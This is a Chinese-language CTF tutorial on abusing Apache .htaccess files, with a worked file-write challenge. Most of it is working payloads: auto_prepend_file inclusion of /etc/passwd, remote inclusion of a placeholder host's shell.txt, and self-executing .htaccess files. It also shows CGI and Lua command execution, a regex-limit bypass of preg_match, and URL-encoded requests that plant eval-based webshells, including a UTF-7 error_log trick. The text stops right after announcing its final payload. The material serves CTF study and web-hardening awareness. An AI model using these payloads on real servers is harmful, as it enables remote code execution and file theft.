# .htaccess

# 什么是htaccess文件

## 简介

**.htaccess**是一个配置文件，用于运行Apache网络服务器软件的网络服务器上。当.htaccess文件被放置在一个 "通过Apache Web服务器加载 "的目录中时，.htaccess文件会被Apache Web服务器软件检测并执行。这些.htaccess文件可以用来改变Apache Web服务器软件的配置，以启用/禁用Apache Web服务器软件所提供的额外功能和特性。

.htaccess文件提供了针对目录改变配置的方法， 即在一个特定的文档目录中放置一个包含一条或多条指令的文件， 以作用于此目录及其所有子目录。作为用户，所能使用的命令受到限制。管理员可以通过 Apache 的 AllowOverride 指令来设置。

```php
eg:
.htaccess 中有 # 单行注释符, 且支持 \拼接上下两行。(注意后面这个东西很重要)
```

## 其他

.htaccess文件所在的目录及其所有子目录，若要启动.htaccess配置文件，我们需要在服务器的主配置文件将 AllowOverride 设置为 All

```php
AllowOverride All  #启动.htaccess文件的使用
```

# 常见使用方式

## 自定义出错界面

我们可以使用.htaccess 创建自定义的出错页面。对于Linux Apache来说这是一项极其简单的事情。使用下面的.htaccess语法你可以轻松的完成这一功能。（**把.htaccess放在你的网站根目录下**），这个在这次比赛当中Nu1l战队师傅用了，打call

```php
ErrorDocument 401 /error/401.php
ErrorDocument 403 /error/403.php
ErrorDocument 404 /error/404.php
ErrorDocument 500 /error/500.php
```

当时出flag是这样的

```php
<If "file('/flag') =~ '/flag{a/'">
ErrorDocument 404 "y4tacker"
</If>
```

假设flag为flag{testflag}
通过后面flag{a不断变换字符一直到flag{t，页面就会出现y4tacker

## SetHandler和ForceType

强制所有匹配的文件被一个指定的处理器处理
用法

```php
ForceType application/x-httpd-php
SetHandler application/x-httpd-php
```

## AddHandler

```php
AddType application/x-httpd-php .htm，则.htm文件也可以执行php程序
AddHandler cgi-script .yyy 则扩展名为.yyy的文件作为 CGI 脚本来处理
```

## AddType

AddType 可以将给定的文件扩展名映射到指定的内容类型

```php
AddType application/x-httpd-php .xxx 同上AddHandler的作用
```

## php_value

当使用 PHP 作为 Apache 模块时，也可以用 Apache 的配置文件（例如 httpd.conf）和 .htaccess 文件中的指令来修改 php 的配置设定。需要有AllowOverride Options 或AllowOverride All 权限才可以。

php_value 设定指定的值。要清除先前设定的值，把 value 设为 none。不要用 php_value 设定布尔值。应该用 php_flag

而.htaccess 只能用于 PHP_INI_ALL 或 PHP_INI_PERDIR 类型的指令(https://www.php.net/manual/zh/configuration.changes.modes.php)
而具体的类型的指令可以参考官方文档https://www.php.net/manual/zh/ini.list.php

### 写一句话木马

在CTF当中的文件上传可以利用这个来实现传一句话木马

```php
php_value auto_prepend_file 1.txt 在主文件解析之前自动解析包含1.txt的内容
php_value auto_append_file 2.txt 在主文件解析后自动解析1.txt的内容
```

### 绕过preg_mach()

刚刚看到网上师傅又说了，可以用来绕过preg_match，我们可以用最大回溯(pcre.backtrack_limit)/递归限制使php正则失效

```php
php_value pcre.backtrack_limit 0
```

当然还有设置其他方式，下面都是可以的，我们看官方配置，PCRE配置选项

| 名字                 | 默认   | 可修改范围  | 更新日志         |
| -------------------- | ------ | ----------- | ---------------- |
| pcre.backtrack_limit | 100000 | PHP_INI_ALL | php 5.2.0 起可用 |
| pcre.recursion_limit | 100000 | PHP_INI_ALL | php 5.2.0 起可用 |
| pcre.jit             | 1      | PHP_INI_ALL | PHP 7.0.0 起可用 |

设置正则回朔次数来使正则匹配的结果返回为 false 而不是0 ，从而可以绕过正则。

## php_flag

用 php_flag设置布尔值，可以将 engine 设置为 0,在本目录和子目录中关闭 php 解析,造成源码泄露

# Trick总结

## 利用404页面

出flag是这样的

```php
<If "file('/flag') =~ '/flag{a/'">
ErrorDocument 404 "y4tacker"
</If>
```

假设flag为flag{testflag}
通过后面flag{a不断变换字符一直到flag{t，页面就会出现y4tacker

## 文件包含

### 本地文件包含

当前目录下php文件头引入/etc/passwd

```php
php_value auto_append_file /etc/passwd
```

使作用范围内的php文件在文件头/尾自动include指定文件，支持php伪协议，.htaccess可以设置php_value include_path "xxx"将include()的默认路径改变

    php_value include_path "xxx"

举个例子，也就会输出一个好东西

```php
<?php
ini_set("include_path","../../../../../../../../");
include "etc/passwd";
```

### 远程文件包含

PHP 的 all_url_include 配置选项这个选项默认是关闭的，如果开启的话就可以远程包含。因为 all_url_include 的配置范围为 PHP_INI_SYSTEM,所以无法利用 php_flag 在 .htaccess 中开启。设置好了以后

```php
php_value auto_append_file http://xxxxx.xxxx.xxx/shell.txt
```

### 可以利用伪协议

需要all_url_fopen、all_url_include 为 On

```php
php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
或
php_value auto_append_file data://text/plain,%3C%3Fphp+phpinfo%28%29%3B
或
php_value auto_append_file "php://filter/convert.base64-decode/resource=shell.txt"
```

## htaccess把自己指定当做 php文件处理

### 当前目录下有php文件

```php
php_value auto_append_file .htaccess
#<?php phpinfo();
```

对于有过滤的情况我们前面说了可以使用\号

```php
php_value auto_prepend_fi\
le .htaccess
#<?php phpinfo();
```

### 当前目录下无php文件

重点：需要先设置允许可访问 .htaccess 文件

```php
<Files .htaccess>
//ForceType application/x-httpd-php
SetHandler application/x-httpd-php
Require all granted
php_flag engine on
</Files>
php_value auto_prepend_fi\
le .htaccess
#<?php phpinfo();
```

或

```php
<FilesMatch .htaccess>
//ForceType application/x-httpd-php
SetHandler application/x-httpd-php
Require all granted
php_flag engine on
</FilesMatch>
php_value auto_prepend_fi\
le .htaccess
#<?php phpinfo();
```

或 将 .htaccess指定当做 php文件处理，一般不用这个感觉

```php
SetHandler application/x-httpd-php
# <?php phpinfo(); ?>
```

文件解析配合一句话木马

```php
<FilesMatch  "y4tacker">
SetHandler  application/x-httpd-php
//或ForceType application/x-httpd-php
</FilesMatch>
```

或

```php
AddType application/x-httpd-php .txt
```

或

```php
AddHandler php7-script .txt
```

## Cgi执行

如果开启了cgi扩展，也可以来解析shell脚本，也就是说cgi_module 需要加载，即 apache 配置文件中有,如 apache2.conf中

```php
LoadModule cgi_module modules/mod_cgi.so
```

在.htaccess中

```php
Options +ExecCGI #允许CGI执行
AddHandler cgi-script .sh
```

再写个

```php
#!/bin/bash
echo "Content-Type: text/plain"
echo ""
ls /
exit 0xxxxxxxxxx #!/bin/bashecho "Content-Type: text/plain"echo ""ls /exit 012345
```

FastCgi执行

mod_fcgid.so需要被加载。即 apache2.conf中

```php
LoadModule fcgid_module modules/mod_fcgid.so
```

在.htaccess中

```php
Options +ExecCGI
AddHandler fcgid-script .kk
FcgidWrapper "/bin/ls /" .kk
```

再写一个y4.kk 内容随意
就会执行上面内容

## lua执行

来自feng师傅补充，2020年西湖论剑 newupload，当然肯定还有一堆各种各样脚本语言了，

    AddHandler lua-script .lua1

随便写一个lua文件

```php
require "string"

function handle(r)
    r.content_type = "text/plain"
    local t = io.popen('/readflag')
    local a = t:read("*all")
    r:puts(a)

    if r.method == 'GET' then
        for k, v in pairs( r:parseargs() ) do
            r:puts( string.format("%s: %s\n", k, v) )
        end
    else
        r:puts("Unsupported HTTP method " .. r.method)
    end
end

```

## 利用报错信息写马

首先写入.htaccess error_log相关的配置

```php
php_value include_path "/tmp/xx/+ADw?php die(eval($_GET[1]))+ADs +AF8AXw-halt+AF8-compiler()+ADs"
php_value error_reporting 32767
php_value error_log /tmp/fl3g.php
```

上面那些神奇字符是utf7编码，可以用下面的方式得到

```php
<?php
$filename = "php://filter/write=convert.iconv.utf-8.utf-7/resource=y4.txt"; //utf-16le编码写入文件

file_put_contents($filename, "<?php phpinfo();?>");
```

或者

```php
mb_convert_encoding('<?php eval($_GET[\'cmd\']); ?>',"utf-7");
```

Step2 访问index.php留下error_log
Step3 写入.htaccess新的配置

```php
php_value zend.multibyte 1
php_value zend.script_encoding "UTF-7"
php_value include_path "/tmp"
```

Step4 再访问一次index.php?1=whoami

## 绕过exif_imagetype()上传.htaccess

采用xbm格式X Bit Map，绕过exif_imagetype()方法的检测，上传文件来解析。在计算机图形学中，X Window系统使用X BitMap，一种纯文本二进制图像格式，用于存储X GUI中使用的光标和图标位图。XBM数据由一系列包含单色像素数据的静态无符号字符数组组成，当格式被普遍使用时，XBM通常出现在标题.h文件中，每个图像在标题中存储一个数组。也就是用c代码来标识一个xbm文件，前两个#defines指定位图的高度和宽度，以像素为单位

```php
#define width 20
#define height 10
xxxxxx
```

## \号绕过waf

比如过滤了file，我们可以使用

```php
php_value auto_prepend_fi\
le .htaccess
#<?php phpinfo();
```

## \号绕过脏字符

假设在写入文件同时后面默认加上file_put_contents($filename, $content . "\nhappy")，我们payload最后可以加上#\，#负责注释，

```php
php_value include_path "/tmp"
php_value zend.multibyte 1
php_value zend.script_encoding "UTF-7"
#\
happy
```

\号将注释符和脏字符连成一行，注释掉脏字符

# 相关例题

```php
 <?php
    $files = scandir('./');      
    foreach($files as $file) {   #循环文件
        if(is_file($file)){ 
            if ($file !== "index.php") {   #如果文件不是index.php 删除。
                unlink($file);     
            }
        }
    }
    include_once("fl3g.php");   # 包含fl3g.php
    if(!isset($_GET['content']) || !isset($_GET['filename'])) {
        highlight_file(__FILE__);
        die();
    }
    $content = $_GET['content'];       #过滤 content 。
    if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
        echo "Hacker";
        die();
    }
    $filename = $_GET['filename'];         #文件名只能有 a-z .     
    if(preg_match("/[^a-z\.]/", $filename) == 1) {
        echo "Hacker";
        die();
    }
    $files = scandir('./');                     #
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") { 
                unlink($file);
            }
        }
    }
    file_put_contents($filename, $content . "\nJust one chance");    #写入content到filename，追加 one chance。
 
?> 
```

一个 写文件的功能，但是只能写 [a-z . ]开头的文件，且内容存在黑名单过滤，并且 内容结尾被追加了内容。 

## 非预期解法一：php_value auto_prepend_file+\号绕过关键字检测

既然文件名有限制，而且无法利用 fl3g.php ，那么只能在没有被过滤的.htaccess 上动手脚了：

.htaccess 文件支持对目录改变配置方法，就是在一个特定的目录防止一个包含一条或多条的文件

以作用于此目录和所有子目录。 作为用户，能用的命令受到限制，管理员可以通过  Apache的 AllowOverride 来配置 开启或关闭

最重要的是，.htaccess 文件中 可以使用 #  进行单行注释     且支持\来拼接上下两行语句。

先看这个：

```php
    if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
        echo "Hacker";
        die();
    }
```

本来我们是可以利用 .htaccess包含一个文件的，文件内容是过滤掉 file 了,但正因为 .htaccess支持 \ 来拼接上下两行语句，那么 我们就可以bypass掉file的过滤。

 pyload：传参访问两次，即可执行代码

```php
?content=php_value auto_prepend_fi\
le .htaccess
#<?php system('cat /fl*');?>\&filename=.htaccess
url编码：
?content=php_value%20auto_prepend_fi%5C%0Ale%20.htaccess%0A%23%3C%3Fphp%20system('cat%20%2Ffl*')%3B%3F%3E%5C&filename=.htaccess

?content=php_value auto_prepend_fi\
le .htaccess
#<?php @eval($_REQUEST['lpp']);?>\&filename=.htaccess
url编码:(注意像传参的关键符号?,=,@,$,_,''这些符号就不要编码了，反正仿照着这些payload来吧) 
?content=php_value%20auto_prepend_fi%5C%0Ale%20.htaccess%0A%23%3C%3Fphp%20@eval($_REQUEST['lpp'])%3B%3F%3E%5C&filename=.htaccess

```

## 非预期解法二：**利用 .htaccess配置prce绕过preg_mach()正则匹配。**

```php
php_value pcre.backtrack_limit 0    # PCRE的回溯限制.
php_value pcre.jit 0        #是否使用 PCRE 的 JIT 编译.

注意代码是if(preg_match("/[^a-z\.]/", $filename) == 1) 而不是if(preg_match("/[^a-z\.]/", $filename) !== 0)，因此可以通过php_value 设置正则回朔次数来使正则匹配的结果返回为false而不是0或1，默认的回朔次数比较大，可以设成0，那么当超过此次数以后将返回false
```

url编码payload:

```php
?filename=.htaccess&content=php_value pcre.backtrack_limit 0%0d%0aphp_value pcre.jit 0%0d%0a%23\
```

这个时候我们就能直接上传fl3g.php了，在fl3g.php中写上一句话之后就能为我们所用了。但是要注意传到当前目录是不行的，源码表明了会清除当前目录下非index.php文件，这里选择根目录下的tmp文件上传。(**一般选择：/tmp 或/var/tmp或/var/html/tmp**)

URL编码后的整体payload为：

```
?filename=/tmp/fl3g.php&content=<%3fphp eval($_POST['cmd']);%3f>
```

之后再上传一个.htaccess文件，修改设置include_path为/tmp

URL编码后的整体payload为：

```
?filename=.htaccess&content=php_value include_path "/tmp"%0d%0a%23\
```

这样我们就能使用一句话了，但需要注意index.php会清除当前目录下非index.php文件，所以连蚁剑是需要注意把上面那句修改include_path的payload也带上，保证每次访问都会生成一个新的.htaccess，这样即使会删除也没问题了(虽然连接上稍微有些问题，一次连接成功后会有一次连接失败但是这是确实可行的，只是蚁剑操作上需要重复几次)。

## 预期解法三

.htaccess中可以配置部分apache指令，这部分指令不需要重启服务端就能生效，利用.htaccess实际上就是利用apache中那些.htaccess有权限配置的指令。

也就是权限为下图中两者的指令。



这里师傅们找到了error_log指令，可以用来写文件。

 error_log是依靠出现错误来触发写日志的，所以最好让error_log把所有等级的错误均写成日志，这样方便我们写入，而error_reporting就能设置写日志需要的错误等级。



其中当参数为32767时，表示为所有等级的错误。



 那如何控制我们写如的内容呢？显然是通过报错，这里师傅们采用的是修改include函数的默认路径。



 在include函数中我们可以直接include("当前目录下文件名")来使用就是因为定义了默认路径为"./"即当前目录，如果把这个值修改为不存在的路径时，include包含这个路径便会报错。



像这样的错误信息便会被写入文件，如果把phpcode换一句话，便能够扩大使用面。

最后我们还需要注意我们写入时，写入的内容会接上"\nJust one chance"，在.htaccess中出现不符合的apache语法的字符时会导致错误，这时我们访问在这个错误.htaccess作用范围内的页面均会返回500。



在apache中#代表单行注释符 ，而\代表命令换行，所以我们可以在末尾加上#\，这个时候虽然换行但仍能被注释，效果如下图。



我们可以在.htaccess文件的末尾加上#\，此时再写入文件的这部分是，#\\nJust one chance所以我们现在要写入的一个.htaccess文件，其包含内容如下图所示(error_log和include_path这种所填入的路径是不必用引号包裹的，但由于我们在此处利用时会使用其他正常路径时并不会出现的字符故进而会导致500，所以应该用引号包裹(单引号和双引号都是可行的))。



值得注意的是经过不完全测试发现仅三个目录有增删文件的权限，这三个目录分别是/tmp/、/var/tmp/和/var/www/html/(即我们当前储存PHP代码的文件夹)，其他目录由于没有增删文件的权限所以我们error_log也因无法在这些目录下创建日志文件而失效(对于tmp文件夹或许是出于临时储存的需求所以需要的权限较低?并没有找到关于这点相关资料，但看师傅们都选择了/tmp/)。



 (其他两个目录同样可行)

**此外我们传入的方式是GET方式，在URL中实现传入，所以得把这些内容进行必要URL编码(包括换行，因为.htaccess只能是一行一条命令)后再传入，换行替换为%0d%0a，#替换为%23，?替换为%3f。**

处理后完整的payload为：

```
?filename=.htaccess&content=php_value%20include_path%20"./test/<%3fphp%20phpinfo();%3f>"%0d%0aphp_value%20error_log%20"/tmp/fl3g.php"%0d%0aphp_value%20error_reporting%2032767%0d%0a%23\
```

。传入后接着再访问一次(携带与不携带payload均是可行的)，此时由于include_path的设定，include函数包含错误便会记录在日志中。

但此时我们的payload并不可直接使用，在写入日志时符号"<"与">"被进行了HTML转义，我们的php代码也就不会被识别。



所以我们需要采用一种绕过方式，这里师傅们采用的是UTF-7编码的方式，先来看下wiki百科对UTF-7编码的解释：[UTF-7 - 维基百科，自由的百科全书 (wikipedia.org)](https://zh.wikipedia.org/wiki/UTF-7)(需要梯子)。



其编码实际上可以看作是另外一种形式的base64编码，这就意味着对于一个标准的UTF-8编码后字符串，如"+ADs-"在去掉首尾的+和-后可以通过直接的base64解码得到对应字符(虽然由于编码原理会出现多余字符串)，但注意反向处理并不会得到UTF-7的编码的。



 

 

对于UTF-7编码来说，一个标准得UTF-7编码后字符串应该由+开头由-结尾，实际用于PHP解码时保留开头得+即可保证一个UTF-7编码后字符串被识别，但这部分不知道为何没有在中文wiki中说明，在英文wiki中却能找到相关描述：[UTF-7 - Wikipedia](https://en.wikipedia.org/wiki/UTF-7)。





对于UTF-7编码来说，最方便得编码和解码方式还是利用PHP自带得函数来处理(mb_convert_encoding需要PHP将mbstring库打开后才能使用，否则会提示函数未定义)。



 

 

回到符号"<"和">"会被HTML转义的问题上来，我们可以使用其UTF-7编码的格式，同时开启PHP对UTF-7编码的解码，这样就能绕过了。

所以经过UTF-7编码后我们的payload如下所示。

